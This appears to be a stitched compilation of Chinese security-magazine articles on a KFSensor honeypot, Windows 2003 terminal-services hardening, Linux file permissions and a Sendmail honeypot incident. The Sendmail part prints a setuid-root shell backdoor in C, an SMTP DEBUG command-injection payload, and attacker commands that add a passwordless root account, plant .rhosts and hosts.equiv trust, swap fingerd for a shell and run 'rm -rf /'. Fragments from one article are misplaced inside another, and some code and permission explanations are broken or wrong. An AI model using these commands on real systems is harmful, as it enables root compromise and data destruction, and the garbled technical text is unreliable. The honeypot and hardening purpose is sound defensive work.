确认 KFSensor 开始工作之后，在命令提示符中敲上“telnet 127.0.0.1”回车，耳边立刻传来“嘟——！”的报警声；同时任务栏的 KFSensor 图标开始闪烁，是表示最高级别的红色警报（默认对 telnet 报警级别是 High，所以是红色警报）。同时在程序主窗口中新增一条记录，双击记录可以查看其详细内容（图10）。

看到了吗？事件开始、结束的时间、类型（Connection）、访问者 IP、端口（2644）、域名（xjedu）、监控名称（Telnet）、协议、收到的数据、响应数据……一应俱全。想想，如果你充当了一次骇客，久攻不下的时候，想到对方是用 KFSensor 这个只有 1M 的软件耍你，并且你的一举一动都在人家眼皮底下的时候……是不是很恐怖、很无奈啊？

我们用 FTP 连接服务器，用户名 guest，密码 guest 进入，然后 bye。之后我们看看 KFSensor 的记录（图11），Received 中明确记录了你输入的数据。Response 中呢？也许你看不到全部的数据，那么就点一下“Expand”（图12）。能说什么呢？我们刚才在命令提示行操作的一切都被记录在案，想抵赖都没有理由啊！

我们再用 X-Scan 2.3 扫描一下机器看看结果如何。扫描的时候，你会发现很多和平时不一样的地方，为什么？难道我写这些东西白忙活啊，呵呵。当然，扫描一开始，KFSensor 就开始用“让骇客感到恐怖”的警报提示你了，还有“灯光特效”；如果设置了邮件报警，还可以发送报警邮件到你的电子信箱。

## 打造超级安全的2003终端服务

| 项目 | 内容 |
|---|---|
| 难度等级 | 低 |
| 适合对象 | 网络管理员、入侵爱好者 |
| 前置知识 | Windows 2003 网络使用/管理基本技能 |

终端服务的强大功能是广大网管人员的福音，给大家带来不少便利，尤其对学校机房管理人员更是如此。但也正因其功能强大，服务器在不法分子与调皮学生面前屡遭挑战，因此有必要打造一个更安全的终端服务环境。
终端服务是为管理员远程管理而开放的特色服务，但入侵者同样可能利用它进入系统并夺取管理权限。作者基于实践提出一套较可行的安全设置方法，供读者讨论与改进。

## 打造安全的数据传输通道

数据加密传输是较安全的方式。文中给出两种实现方法，效果基本一致，其中使用组策略的方法更优先介绍。

### 1. 使用组策略

- 打开“开始菜单”→“运行”，输入 `gpedit.msc` 打开组策略。
- 在“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”→“加密与安全性”中，双击“设置客户端连接加密级别”，并启用该策略。
- 在“加密级别”列表中选择“高级别”，点击“确定”。
> 如果通过策略加密并启用 FIPS 兼容算法（联邦信息处理标准）策略，也可通过应用该策略来设置终端服务连接的加密级别。

### 2. 使用终端服务自身配置

打开“终端服务配置”后按步骤进行相关设置。配合监测工具可及时发现扫描与异常访问行为，从而提升整体安全性。

发现 X-Scan 每扫描一个端口，KFSensor 就会立刻进行实时记录（图13）。
- 打开“终端服务配置”。
- 在控制台树中，单击“连接”。
- 在详细信息窗格中，右键单击要修改的连接，然后单击“属性”。
- 在“常规”选项卡的“加密级别”中，选择“高”。
- 可以从以下加密级别中选择：
  - “符合 FIPS 标准”级别通过使用 Microsoft 加密模块的联邦信息处理标准（FIPS）加密算法，对客户端和服务器之间相互发送的数据进行加密和解密。
  - “高”级别使用 128 位的强加密算法，对客户端和服务器之间发送的数据进行加密。
  - “客户端兼容”级别以客户端所支持的最大密钥强度来加密客户端和服务器之间发送的数据。
  - “低”级别将使用 56 位加密对从客户端传输到服务器的数据进行加密。
- 在“控制级别”下，可单击“查看会话”以指定用户的会话只能查看，或单击“与会话交互”以指定用户的会话可以随时使用键盘和鼠标进行控制（如图2所示）。
图2

> 刘流：从服务器发向客户端的数据不会被加密；当在服务器上安装了另一验证软件包时，如果你希望此连接默认进行标准的 Windows 验证，请选中“使用标准 Windows 验证”复选框。

> 注意：在每连接的基础上配置的远程控制会影响使用该连接的所有会话。可以使用终端服务用户配置组策略，或使用本地用户和组以及 Active Directory 用户和计算机的终端服务扩展程序，在每用户的基础上配置远程控制，而且远程控制权限的更改不会应用到在更改时已连接的会话上。

## 设置安全的远程控制

下面我们使用两个方法来实现安全控制，使用这两种方法的效果也是一样的，但使用组策略还是优先于终端服务器的设置。

### 1. 使用组策略

- 打开“组策略”。
- 在“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”中，双击“为终端服务用户会话的远程控制设置规则”设置，然后单击“已启用”。
- 在“选项”框中，单击所需的远程控制权限，然后单击“确定”。选择经用户授权查看会话。

### 2. 使用终端服务配置进行修改

- 打开“终端服务配置”。
- 在控制台树中，单击“连接”。
- 在详细信息窗格中，右键单击要配置远程控制的连接，然后单击“属性”。
- 在“远程控制”选项卡上，单击“使用具有下列设置的远程控制”以配置该连接的远程控制。
- 要在客户端上显示询问是否查看或加入该会话权限的消息，请选中“需要用户权限”复选框。
- 在“控制级别”下，单击“查看会话”以指定用户的会话只能查看，或单击“与会话交互”以允许控制。

## 设置安全的用户登录设置值

更改用户或组的连接权限。

- 打开“终端服务配置”。
- 在控制台树中，单击“连接”。
- 在详细信息窗格中，右键单击需要更改权限的连接，然后单击“属性”。
- 在“权限”选项卡上，单击“高级”以打开“高级安全设置”对话框。
- 在“权限项”中，选择需要更改权限的用户或组，然后单击“编辑…”打开“权限项”对话框（如图3所示）。
- 在“权限”中，根据需要在要为该组设置的权限旁选中或清除“允许”或“拒绝”复选框。

这里需要注意，要根据需要对用户授权合适的权限，不要给他们完全控制的权力，权力越大造成的风险也就越大。
图3

## 设置安全的工作环境

### 1. 连接时总是提示客户端提供密码

- 打开“组策略”。
- 在“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”→“加密与安全性”中，双击“连接时总是提示客户端提供密码”设置（如图4）。
- 单击“已启用”，然后单击“确定”。
### 2. 确保终端服务器 RPC 通信的安全

- 打开“组策略”。
- 在“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”→“加密与安全性”→“RPC 安全性策略”中，双击“安全服务（要求安全性）”设置。
- 单击“已启用”，然后单击“确定”（如图5）。
- 远程过程调用（RPC）接口用于管理和配置终端服务。
- 若状态为“已启用”，终端服务器只接受支持安全请求的 RPC 客户端并拒绝不受信任的非安全通信；若为“已禁用”，仍要求安全性但允许不响应请求的客户端进行非安全通信；若为“未配置”，允许非安全通信（默认）。
使用以上步骤配置本地组策略对象。若要更改用于域或组织单位的策略，需要以管理员身份登录主域控制器，并通过“Active Directory 用户和计算机”管理单元调用组策略。

## 限制到远程会话的用户

### 1. 使用组策略

- 打开“组策略”。
- 在“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”中，双击“限制终端服务用户到一个远程会话”设置。
- 单击“已启用”，然后单击“确定”。

使用以上步骤配置本地组策略对象。若更改域/组织单位策略，需管理员登录主域控制器，并通过“Active Directory 用户和计算机”调用组策略。

### 2. 使用终端服务配置

- 打开终端服务配置。
- 在控制台树中，单击“服务器设置”（如图6）。
- 在详细信息窗格中，右键单击“限制每个用户使用一个会话”，然后单击“确定”。
- 选中“限制每个用户使用一个会话”复选框，然后单击“确定”。

好了，终于讲完了。通过上面的设置，终端服务的安全性会更强，可减少被利用入侵的风险。
## 结束语

相对于其他安全技术，入侵检测仍处于起步阶段。作为主动防御技术的重要组成，希望本文对研究与应用入侵检测技术有所启发。

## 文件系统安全加强

服务器内部系统的文件安全非常重要，因为如果权限被恶意人员获取，后果严重。本文介绍如何增强系统文件安全性。

适合对象：入侵爱好者、网络管理员  
难度等级：低  
文／小华健

在介绍如何加强文件系统安全性之前，应先了解 Linux 基本文件安全与所有权，以及 `ls -la` 长列表显示中各字段的含义。

```
典型命令：/bin/ls -la


```
字段说明：域1表示文件/目录权限，域2为链接数，域3为所有者，域4为所属组，域5为大小，域6为修改时间，域7为文件名。每个域都可为管理员提供安全信息。

### 文件的权限和所有权

Linux 将文件/目录权限按所有者（owner）、组（group）、其他用户（other）分类。权限不仅用于普通文件，也用于特殊文件（如 FIFO、sockets）和符号链接。

| 符号权限 | 描述 |
|---|---|
| r (Read) | 打开并读取内容 |
| w (Write) | 修改/添加/删除内容 |
| x (Execute) | 执行文件（程序或脚本） |
| s (Special Perm) | setuid/setgid 特殊权限 |
| - (Access Denied) | 对应位无读/写/执行权限 |

read、write、execute 含义直观，但 `s`（setuid）需要特别说明。

### 1. 设置用户鉴定的属性

若在所有者权限位设置用户 ID（setuid）且文件可执行，运行该文件时将以文件所有者权限访问系统资源。该设置需谨慎，错误配置可能引发缓冲区溢出利用并导致提权。

```bash
user@myhost $ ls -l /etc/shadow /etc/passwd /usr/bin/passwd
-r-------- 1 root root ... /etc/shadow
-rw-r--r-- 1 root root ... /etc/passwd
-r-sr-xr-x 1 root bin  ... /usr/bin/passwd
```

示例中 `/usr/bin/passwd` 设置了 `s`，普通用户可执行该程序并以所有者权限修改密码，这就是 setuid 的典型行为。

> 刘流：setuid 在应用与目录中意义不同。系统中应尽量减少 setuid/setgid 二进制，普通用户通常不应拥有或轻易修改这类权限，以降低被攻击者利用的风险。

### 2. 设置组鉴定属性

在组权限位设置时，可控制“set group ID（setgid）”行为。

文件的状态。这和设置 setuid 的步骤是一样的，但是组要受到不利的影响。文件也必须是可执行的。对进程有效的组的 ID 被改变成组的所有者，或者用户可以访问的那个组。同时有“write all”权限的用户把 wall(1) 程序（`/usr/bin/wall`）写入到系统日志上。设置组的 ID 是为了在终端有写的权限，不允许用户运行以下这个程序：

```bash
user@myhost$ ls -l /usr/bin/wall
-r-xr-sr-x 1 root tty 5492 May 7 14:02 /usr/bin/wall
```

大家都知道这个程序可以被任何人执行，它拥有 root 的权限，也是 tty 组的成员，所以要让这个程序不能被有恶意的用户执行。在系统上 tty 组的任何成员也不能改组。

### 目录的权限和所有权

目录的设置可以保护所有在目录里文件，子目录没有权限访问文件的根目录。当然，在同一个文件上一些代表性目录权限也可能有不同的意义，同时还可能有在其他目录上也可以用的权限，如 setuid、setgid 等等。权限描述表如下：

| 字符 | 权限 | 描述 |
|---|---|---|
| r | Read | 显示文件的内容 |
| w | Write | 在目录下添加/修改/移动文件 |
| x | Execute | 在目录下打开/执行文件 |
| - | Access Denied | 在带有“-”符号时，不能读/写/执行文件 |
| s | Special Mode | 把组的 ID 设置成可用的组（仅仅在“group”里） |
| t | Special Mode | 保留文本属性 |

理解这些符号的具体用法和意义，并能用它们来保护文件安全是非常重要的。这些符号的代表意义大部分还是好理解的，但也有的需要我们探讨一下它的用法：Read 符号的权限是用来显示目录里的内容的；有权限可以打开目录；Write 符号的权限是用来加、移动或者修改目录里的文件的，有权限打开目录。注意在文件内有写的权限非常重要，如果没有特殊情况最好别把这个权限去除掉。

### 1. 保留文本属性

Save Text（也叫 sticky bit）是一个在目录有用的选项。假如保留文本属性在目录里设置，用户仅仅能删除文件或者写的权限在文件上，甚至在目录上也有写的权限。有计划地对目录设置写的权限，但是不能允许用户任意删除文件。sticky bit 在长长的目录清单里被看作字母“t”。例如，`/tmp` 是有代表性的写权限目录。任何用户都有可以写临时文件的权限。`/tmp` 目录列出的清单看起来有点像如下：

```bash
user@myhost$ ls -ld /tmp
drwxrwxrwt 3 root root 2048 Aug 23 16:25 /tmp
```

这说明任何用户都有写、读还有访问的权限。但是字母“t”的选项说明用户可以创造文件，并且可以删除文件。`chmod(1)` 命令控制保留文本属性的权限。例如你可以加保留文本属性到一个目录如下：

```bash
root@myhost# ls -ld spool
drwxrwxrwx 3 root root 2048 Aug 23 16:25 spool
root@myhost# chmod +t spool
root@myhost# ls -ld spool
drwxrwxrwt 3 root root 2048 Aug 23 16:25 spool
```

不但可以在文件上使用保留文本属性的选项，而且还可以用在这之前的 UNIX 系统上，但它并不完全适应现在的 Linux 系统。加之，这个选项不可以随便使用，应当建立一个目录在用户的主目录上，可以让任何一个用户用来建立目录，还有 TMPDIR 环境变量被设置，并且系统寻找这个变量，在调用 tempnam(3) 程序。

### 2. 设置组特定属性

假如你设置 setgid bit 在一个目录上，文件建立在那个目录下相同的组所有权当作组本身，和创造文件的用户的根组相比。这个属性是很有用，在很多用户访问特殊的文件时，但还要求和其他文件分离。所有文件在一个带有 setgid 属性设置的公共目录下运行，意味着任何在这个目录下创造的文件将会获得那个公共目录的权限。

例如这里有两个用户，在不同的重要组里，但是需要合作在一个公共方案。在这种情况下，创建一个公共目录对他们来说都有写的权限。你可以控制 setgid 的属性在一个目录下用以下的命令：

```bash
joe@myhost$ ls -ld common_dir
drwxrwxr-x 2 joe dev 1024 Aug 23 17:03 common_dir
joe@myhost$ chmod g+s common_dir
joe@myhost$ ls -ld common_dir
drwxrwsr-x 2 joe dev 1024 Aug 23 17:03 common_dir
```

可以看出来，“s”取代了执行位在组的权限，这就是说所有被写在 common_dir 里的文件将属于组 dev。

### 改变文件和目录的权限

chmod(1) 命令控制着文件和目录权限的改变。仅仅所有者（owner）或者超级用户才可以改变文件和目录的权限。执行 chmod(1) 命令有两种模式：absolute mode 和 symbolic mode。

### 1. 用八进制数值（absolute mode）改变文件权限

对指定的权限运行八进制值，写入一个数值来达到想要如何改变权限。这些数字被用在设置 owner、group、other 3 个权限上。

| 值 | 权限 | 描述 |
|---|---|---|
| 0 | --- | 没有权限 |
| 1 | --x | 仅有执行权限 |
| 2 | -w- | 仅有写权限 |
| 3 | -wx | 写和执行权限 |
| 4 | r-- | 仅有读权限 |
| 5 | r-x | 读和执行权限 |
| 6 | rw- | 读和写权限 |
| 7 | rwx | 读/写/执行权限都有 |

利用上表你可以用 chmod(1) 修改文件权限，如下：

```bash
user@myhost$ ls -l
-rwxrw-r-- 1 dave sysadmin 36012 Aug 21 01:06 run.pl
```

从上面的例子中可以看出 dave 是一个所有者，而且文件属于组（sysadmin）。通过最左边字符可以看到这是一个普通文件。owner 有读写执行权限，group 有读写权限，other 仅可读。

| Access Class | user | group | other |
|---|---|---|---|
| Symbolic Mode | rwx | rw- | r-- |
| Binary Mode | 111 | 110 | 100 |
| Octal Equiv | 7 | 6 | 4 |

去除其他用户（other）读文件权限，可以利用 chmod(1) 命令来实现如下：

```bash
user@myhost$ ls -l run.pl
-rwxrw-r-- 1 dave sysadmin 36012 Aug 21 01:06 run.pl
```

```bash
user@myhost$ chmod 760 run.pl
user@myhost$ ls -l run.pl
-rwxrw---- 1 dave sysadmin 36012 Aug 21 01:06 run.pl
```

从上面的例子可以看到 run.pl 被修改成为其他有恶意用户没有读的权限，包括不在组 sysadmin 里的用户和非 owner 用户。

### 2. 用八进制数值（absolute mode）改变目录权限

文件和目录权限的基本区别是控制在访问资源上的。根据下表可以看出每个八进制的意义。可以用 chmod(1) 来修改目录权限。

```bash
user@myhost$ ls -l
drwxr-x--- 1 dave sysadmin 1024 Aug 21 01:06 games
```

从上面知道 dave 为所有者，目录属于组 sysadmin。用这些信息我们更清楚地看到目录权限：

| Access Class | User | Group | Other |
|---|---|---|---|
| Symbolic Mode | rwx | r-x | --- |
| Binary Mode | 111 | 101 | 000 |
| Octal Equivalent | 7 | 5 | 0 |

以下是允许其他用户有访问文件的能力，用 chmod(1) 如下做：

```bash
user@myhost$ ls -ld games
drwxr-x--- 1 dave sysadmin 1024 Aug 21 01:06 games
user@myhost$ chmod 755 games
user@myhost$ ls -ld games
drwxr-xr-x 1 dave sysadmin 1024 Aug 21 01:06 games
```

### 3. 用符记（Symbolic Mode）改变权限

这个方法在改变文件权限的两种方法中比较简单。一个完整的例子如下：

```bash
dave@myhost$ ls -l nsmail
drwxr-xr-x 2 dave dave 1024 Aug 7 00:17 nsmail
dave@myhost$ chmod go=rx nsmail
dave@myhost$ ls -l nsmail
drwxr-xr-x 2 dave dave 1024 Aug 7 00:17 nsmail
```

对任何人去除写的权限，用减号“-”符号：

```bash
dave@myhost$ chmod a-w myfile
dave@myhost$ ls -l myfile
-r--r--r-- 1 dave dave 424 Aug 23 23:..
```

```bash
10 myfile
```

你可以控制 setuid 和 setgid 在文件和目录上。如下：

```bash
root@myhost# ls -l
...
root@myhost# chmod g+ws groupdir
root@myhost# chmod u+s myprog
root@myhost# chmod o+t a+w spool
root@myhost# ls -l
...
```

这个例子使用了 chmod(1) 的许多特征。从上面的例子可以看出，groupdir 和 myprog 是组（sysadmin）的成员。还有一点值得注意，就是只有所有者（owner）有写权限在文件或者目录上。

- 第五行：如何给组加写权限并设置 setgid 来访问 groupdir 目录。这样可以使组 sysadmin 里的成员在这里有写权限，并保留组 sysadmin。
- 第六行：如何增加 setuid bit 到 myprog 里。也就是说任何在组 sysadmin 里的用户，都被允许执行 myprog。
- 第七行：如何增加 Sticky Bit 到 spool 里，也增加了对所有用户的写权限。
- 第八到十一行：显示被修改过的文件和目录。

## 改变组和文件的所有权

用 chown(1) 命令来改变组和文件的所有权（仅能被 root 使用）。提供一个新的用户名和文件，如果想改变文件和用户名，用 chown(1) 命令如下：

```bash
root@myhost# ls -l myfile
-r--r--r-- 1 fred sysadmin 424 Aug 23 23:10 myfile
root@myhost# chown root myfile
root@myhost# ls -l myfile
-r--r--r-- 1 root sysadmin 424 Aug 23 23:10 myfile
```

如果是添加一个新的组名和文件如下：

```bash
root@myhost# ls -l myfile
-r--r--r-- 1 fred sysadmin 424 Aug 23 23:10 myfile
root@myhost# chgrp root myfile
root@myhost# ls -l myfile
-r--r--r-- 1 fred root 424 Aug 23 23:10 myfile
```

当然，用这个命令也可以同时改变所有权和组。如下：

```bash
root@myhost# ls -l myfile
-r--r--r-- 1 fred sysadmin 424 Aug 23 23:10 myfile
root@myhost# chown root:root myfile
root@myhost# ls -l myfile
-r--r--r-- 1 root root 424 Aug 23 23:10 myfile
```

## 设置 Umask

在系统上，umask 命令常用来确定缺省的文件创建模式。假如建立文件时不重视文件的权限设置，这样用户就会在不经意间把读和写的权限给一些不应当有这些权限的人。典型的 umask 设置包括：022、027 和 077。一般情况下，umask 设置在 `/etc/profile` 里，因此它适用于系统上的所有用户。Umask 设置为 777 时，新建文件将没有读、写和执行权限分配给任何人。Mask 设置为 666 将促使新创建的文件拥有一个设置为 111 的 mask。例如可以像下面这样设置：

```bash
# Set the user's default umask
umask 033
```

确定 root 的 umask 设置为 077，这将使其他用户失去对其文件读、写和执行的权限。要么就用 chmod 命令来改变。在这种情况下，新创建的目录将允许设置为 744。使用 033 的 umask 将使新创建的文件允许设置为 644。

监视文件要用特殊权限，setuid 和 setgid 文件都存在安全隐患，所以我们应当时刻监视这些文件。用以下命令可以找出系统上所有这些文件：

```bash
root@myhost# find / -type f -perm +6000 -ls


```

### 总结

总之，Linux 下文件和文件系统的安全问题是个非常复杂的问题。从站点上下载下来的程序，假如以 root 身份运行程序，就算是信任的用户也要进行校验。还有在对系统文件的权限设置之前，应该知道自己应该怎么做，以规则为先，这样对系统的安全是有好处的。最后希望文章对大家有所帮助。谢谢。

| 项目 | 内容 |
|---|---|
| 难度等级 | 中 |
| 适合读者 | 网络管理员、入侵者 |
| 前置知识 | Sendmail 使用基础、基本入侵技术 |

网络管理员和入侵者的较量，从计算机开始有的那天起就一直没有停息过。但很不幸的是，往往都是入侵者占据优势的一方，因为漏洞总是先被公布然后才被修补，所以真正的入侵者总是比管理员先一步入侵服务器，而管理员或许不会发现丝毫痕迹，怎么办呢？永远让入侵者猖狂？当然不是！我们诱敌深入，设置好陷阱让入侵者中圈套！

## “诱敌深入”实战演习
文／彭父波

> 诱敌深入是一门很实用的技术，古今中外，很多军事家、政治家、企业家都对这个战术津津乐道，在网络攻防中也不例外。系统管理员也会用到这样的战术。由于每个网络系统都有安全方面的弱点，如果它的价值很高的话，这些弱点就有可能被入侵者利用。通常，人们会主动去弥补这些漏洞或者缺陷，但系统管理员要是有一手的话，完全可以使入侵者相信系统存在安全缺陷，并将其引向这些错误的资源，也就是“诱敌深入”。当然，这需要在“知己知彼”的基础上才能“百战百胜”。管理员还可以跟踪入侵者的行为，在入侵者之前修补系统可能存在的安全漏洞，这可以形象地比喻为“牵着牛鼻子走路”。下面我们来看看怎么做。

### 欺骗实例之“诱敌深入”

相信很多朋友都知道，邮件服务器软件 Sendmail 中有个安全漏洞。入侵者如果熟悉邮件服务器软件 Sendmail，也肯定会试探攻击。据说只要收到被做过手脚的邮件，邮件服务器设备管理员的权限就有可能被篡夺。由于可以通过邮件进行攻击，因此很难用防火墙等防范。尤其是基本上所有版本的 Sendmail 都受到影响，因此我们决定使用邮件服务器软件 Sendmail 作为诱饵。在这个实例中，将会使用到后文所介绍的一些欺骗技术原理，我们先看看实战。

一个多月都没有动静，终于，在我们无意中间接公布了一些系统的消息后，发现系统出现了异常日志。是在 2004 年 2 月 14 日，可能是由于情人节的落寞想找个地方来发泄，一个黑客发现了我们公布的计算机漏洞，试图获得我们的 password 文件。顺水推舟，我们就给他送了一份人情，很快我们就发现在口令文件 passwd 中增加了一个 UID 为 0 的账号。

这个黑客十分有耐心，手段也很高明。一切在意料之中，我们在机器的 `/tmp` 目录下又发现了一个程序，而且只要运行这个程序，就会轻易得到用户权限。根据我们自己掌握的情况，这种方法在网上几乎是最受欢迎的了。不过，对于系统用户来说，定期清理 `/tmp` 下的文件是很正常的，因此即使我们清理这个文件，他也不会感到意外。我们打开在 `/tmp` 目录下放置的 C 源程序进行了研究：

### 1. 关于 Sendmail 的一些知识

Sendmail 作为 Linux、BSD 和其它 UNIX 平台的“标配”，被广泛使用。作为一个相当普及的软件，再加上众多的相关软件支持，配置 Sendmail 可以算得上系统管理员的基本技能之一了。Sendmail 主要的配置文件如下：

- `/etc/sendmail.cf` 是 Sendmail 核心配置文件；
- `/etc/aliases` 是邮件别名文件；
- `/etc/mail/relay-domains` 用于设定可 RELAY 的域名；
- `/etc/mail/access` 用来设定处理来信的方式，如 RELAY 等。

在默认情况下，也就是安装 Sendmail 服务器不做任何设置的话，则只能在本机上收发邮件，网络上其他主机不能向该 SMTP 服务器发送邮件。关于 Sendmail 的具体安装配置过程，我们可以通过 http://www.worldhello.net/doc/email_howto/sendmail.html 这个网址得到比较满意的答案。

### 2. 序幕

为了给黑客们一个惊喜，我们故意留出了一个 DEBUG 漏洞，放开网后，就等鱼儿上钩了。

```c
/* backdoor/backdoor2.c */
#include?
main()
{
    system("cp /bin/sh /tmp/fid");
    system("chown root.root /tmp/fid");
    system("chmod 4755 /tmp/fid");
}
```

很明显，这是一个后门程序，通过这个程序可以获得一些关于根用户的相关属性，这对黑客来说是一个刺激。对我们管理员来说，既然要“诱敌深入”做个测试，就肯定也存在一定的挑战了。而现在我们所要做的，就是引诱一个黑客到一个我们设计好的环境中，记录下来他的所有动作，研究其行为，并提醒他的下一个目标作出防范。

日志方面，我们还添加了一些虚假的服务在系统上。由于每天定时产生的日志量非常大，为了有针对地了解攻击动向，我们做了一个 Script 文件用来检索每天的日志。其中，我们主要检查以下几点：

- **Telnet/login 服务检查**：如果有黑客试图进入我们的系统，他肯定要尝试很多账户和密码，这样他的一举一动都会被我们记录下来。然后重点探测 `Guest/visitor` 账号。黑客常会先找公用账号，这些账号可能导致获取系统文件（包括 `passwd`）的机会，也可能通过 `/etc/hosts.equiv` 或用户的 `.rhosts` 获得信任主机列表。
- **FTP 服务检索**：检索工具会报告每天的注册和试图注册用户名。我们伪造了一个 `passwd` 文件，获取该文件的人通常用它推测系统正式用户名并尝试破解。
- **SMTP DEBUG**：该命令可能被利用为 Sendmail 漏洞入口。漏洞允许外部用户通过一段 Script 以 Root 权限执行命令；当有人尝试时，我们可获得其 Script 代码。
- **Finger**：Finger 可提供账号名、最后使用时间等信息。我们设置程序拒绝 Finger 请求（并避免自身查询循环），报告显示每天有大量 Finger 请求，其中很多是合法探测。

## 3. 较量

设置好上面的服务以后，由于我们的目标有点暴露，因此被攻击率比较高。但是当一个远程使用者取走 `passwd` 文件时，并不是所有人都出于恶意。我们从日志中看到不同人的心理：善意、好奇、成就感等。为了提醒黑客，我们设置了一个自动回信，大致内容是：

> “如果你到了这个地方，就已经很不错了；如果你希望继续，我们也可以陪你玩玩。如果我们现在正看着你的操作，感觉如何？”

不过，对于高手来说，这招并不一定奏效。下面的日志记录了两个邮件发送器的相互对话，整个心理过程可以从中窥探出来。

```text
00:43:10 smtpd[27466] <--- 220 xxx.xxx.com SMTP
00:43:14 smtpd[27466] ------> debug
00:43:14 smtpd[27466] DEBUG attempt
00:43:14 smtpd[27466] <--- 200 OK
```

```text
00:43:25 smtpd[27466] ------> mail from:
00:43:25 smtpd[27466] <--- 503 Expecting HELO
00:43:34 smtpd[27466] ------> helo
00:43:34 smtpd[27466] HELO from
00:43:34 smtpd[27466] <--- 250 xxx.xxx.com
00:43:42 smtpd[27466] ------> mail from:?
00:43:42 smtpd[27466] <--- 250 OK
00:43:59 smtpd[27466] ------> rcpt to
00:43:59 smtpd[27466] <--- 501 Syntax error in recipient name
00:44:44 smtpd[27466] ------> rcpt to<|sed -e '1,/^$/d'|/bin/sh;exit 0|>
00:44:44 smtpd[27466] shell characters "sed -e '1,/^$/d'|/bin/sh;exit 0|"
00:44:45 smtpd[27466] <--- 250 OK
00:44:48 smtpd[27466] ------> data
00:44:48 smtpd[27466] <--- 354 Start mail input; end with .
00:45:04 smtpd[27466] <--- 250 OK
00:45:08 smtpd[27466] ------> quit
00:45:08 smtpd[27466] <--- 221 xxx.xxx.com Terminating
00:45:08 smtpd[27466] finished
```

这是我们对 SMTP 过程的日志。这些看似神秘的日志通常是人工键入命令。入侵者尝试的第一个命令是 `Debug`。当他接收到 “250 OK” 时会很惊奇。关键行是 `rcpt to:`，尖括号中的部分通常是收件器地址，但这里包含了一个命令行。在 DEBUG 模式下，Sendmail 可以用它以 Root 身份执行一段命令，即：

```bash
sed -e '1,/^$/d' | /bin/sh ; exit 0
```

它去掉了邮件头信息，并使用 Root 身份执行了消息体，从而隐藏一些信息。之后这个入侵者试图从服务器取得密码和账户文件，于是我们编造了一份假文件给他发过去，密文破解后的意思是：“小心玩火自焚！”

## 4. 险路寻踪

这样几天没有动静，估计这个入侵者不死心，在考虑该怎么修改密码文件。其实到这一步我们完全可以打补丁，不过我们想继续观察。周五晚上监控终端报告安全事件，入侵检测系统也报警。核对日志后发现有人试图使用 Debug 以 Root 身份执行命令，也就是试图修改密码文件。我们发现这次入侵同样来自上次连接，开始思考到底是“诱敌深入”还是“引狼入室”。

从感觉来看，这个黑客比我们想像中的要厉害，而且他对现在的系统和系统漏洞相当了解。难道我们要做的就是“拔掉网线”吗？思索中，一切仍然在进行。

出于真实性考虑，我们在采取一些信息迷惑的同时，也公布了一些让黑客进入的诱饵……当我做完后，这个人侵者继续尝试：

```bash
00:44 echo "cndes::301:1::/bin/sh" >> /etc/passwd
```

他尝试了几个命令，但是没有成功，终于他发现了 cndes 这个账号，于是产生了下面的日志：

```text
00:51 Attempt to login to inet with cndes from hust.whnet.edu
00:55 echo "cndes::303:1::/tmp:/bin/sh" >> /etc/passwd
00:57 (Added cndes to the real password file)
01:05 echo "36.92.0.205" >/dev/null
01:06 Attempt to login to inet with guest ...
01:08 echo "hust.whnet.edu cndes" >> /tmp/.rhosts
```

这时，这个入侵者的活动又转到了 FTP 上：

```text
Feb 20 01:36:48 inet ftpd[14437] <--- 220 inet FTP server
Feb 20 01:36:55 ... user cndes
Feb 20 01:37:06 ... PASS command not understood
Feb 20 01:37:24 ... HELP
Feb 20 01:37:31 ... QUIT
Feb 20 01:37:41 inet inetd[116]: finger request ...
```

```text
103.0.117 pid 14454
Feb 20 01:37:41 inet inetd[116], exit 14454
01:38 finger attempt on cndes
01:48 echo "36.92.0.205 hust.whnet.edu" >> /etc/hosts.equiv
01:53 mv /usr/etc/fingerd /usr/etc/fingerd.b
cp /bin/sh /usr/etc/fingerd
```

看得出，他在这方面是很在行的，幸运的是，他只是破坏了我们模拟机器上的 Finger 而已……摘录的相关日志如下：

```text
01:57 Attempt to login to inet with cndes from hust.whnet.edu
01:58 cp /bin/csh /usr/etc/fingerd
02:07 cp /usr/etc/fingerd.b /usr/etc/fingerd
```

按照他的意思，Fingerd 现在重新开始工作。现在他试图修改 Password，不过，这永远不会成功……攻击在继续中：

```text
02:16 Attempt to login to inet with cndes ...
02:17 echo "/bin/sh" > /tmp/Shell
chmod 755 /tmp/shell
chmod 4755 /tmp/shell
02:19 Attempt to login to inet with cndes ...
02:21 Attempt to login to inet with cndes ...
```

已经让我们疲惫不堪了，不过，这位入侵者也应该很疲惫了。突然，我发现了一个新的日志：

```text
02:55 rm -rf /&
```

看来他试图删除所有进入的痕迹，估计他很累了。对于这个黑客来说，“没有进行破坏”是说不过去的……这些黑客希望长时间大量地得到珍贵的数据而不被发觉，这其实是最可怕的一种攻击行为。

看来，今天碰到的这个黑客确实很职业，不过，他没有意识到我们给他布置的“局”，徒劳的长时间攻击之后，他选择了退出。

我们也很累了，不过，现在最要紧的，就是马上恢复并且马上打上最新的 Sendmail 系统补丁了……

## 网络欺骗方法探幽

从上面的入侵事件中，大家可以看出网络管理员和……入侵者在工作上永远是不相容的两个派别，至于工作之外是什么角色就不好说了。实践过程中，我们可以用逆向的思维来猜测入侵者的进攻技术和意图，牵着他的“牛鼻子”按照我们给他设计好的意志进行选择，并且逐步消耗他的资源。这样，就会使入侵者感到要达到期望的目标还是具有一定挑战性的。一般来说，网络欺骗的方法可以从以下几个方面来考虑。

## 1. 诱饵：Honey Pot 和分布式 Honey Pot

最早采用的网络欺骗是 Honey Pot 技术。Honey Pot 就像一个诱饵，它将少量有吸引力的目标（即 Honey Pot）放在让入侵者很容易发现的地方，使之落入圈套。其中采用的技术手段很多，通常包括安插错误信息和隐藏等。前者包括重定向路由、伪造假信息和设置圈套；后者包括隐藏服务、多路径和维护安全状态信息机密性。这样就可以使入侵者将技术、精力集中到 Honey Pot，而不是其他真正有价值的正常系统和资源中，因此这个诱饵必须做得尽量“美味、可口”。

